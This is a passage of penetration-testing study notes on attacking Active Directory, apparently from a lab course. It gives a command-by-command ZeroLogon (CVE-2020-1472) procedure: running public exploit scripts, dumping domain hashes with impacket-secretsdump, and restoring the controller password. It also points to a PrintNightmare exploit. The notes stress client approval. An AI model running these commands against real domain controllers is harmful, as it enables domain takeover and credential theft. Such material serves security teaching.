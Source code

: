 It is worth checking for these additional vulnerabilities, **but I should not attempt to exploit them unless my client approves**. I need to get approvals before attempting these exploitations.

- ZeroLogon

It is a really critical bug. This attack allows the dc admin account password to be reset. As a result of this attack, attackers can obtain the `NTDS.DIT` dumping without knowing the password of the Domain Controller (DC).

https://github.com/SecuraBV/CVE-2020-1472 - for checking if the target machine is vulnerable to this attack

https://github.com/dirkjanm/CVE-2020-1472 - for exploitation and restoration of the password

As this attack is extremely dangerous, I need to consider the potential impact on the network if a DC server goes down, what the consequences would be if clients are unable to restore the DC to a working state, and finally, whether demonstrating the exploit is worth the risk.

1. `git clone https://github.com/dirkjanm/CVE-2020-1472.git`
   `git clone https://github.com/SecuraBV/CVE-2020-1472.git`

   It will be great to save the folder in `/opt`.

2. Run `python3 zerologon_tester.py HYDRA-DC 192.168.64.32`

   If DC can be compromised by a zerologon attack through this checking.

   Then exploit.

3. `python3 cve-2020-1472-exploit.py HYDRA-DC 192.168.64.32`

4. `impacket-secretsdump -just-dc MARVEL/HYDRA-DC\$@192.168.64.32`

   Hashes will be dumped.

   Restore this server!

5. `impacket-secretsdump administrator@192.168.64.32 -hashes $(dumped hashes)`

   The hash formate will be like `a:a`.

   And then copy the `$(plain_password_hex)`

6. `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.64.32 -hexpass $(plain_password_hex)`

   This command is to restore the password.

   - PrintNightmare

   This vulnerability does not require authentication to exploit. It takes advantage of the print spooler service. It allows users to add printers and perform other actions, running with system privileges.

   https://github.com/cube0x0/CVE-2021-1675

## Attacking Active Directory: Post Exploitation

1. File Transfer

   For windows:
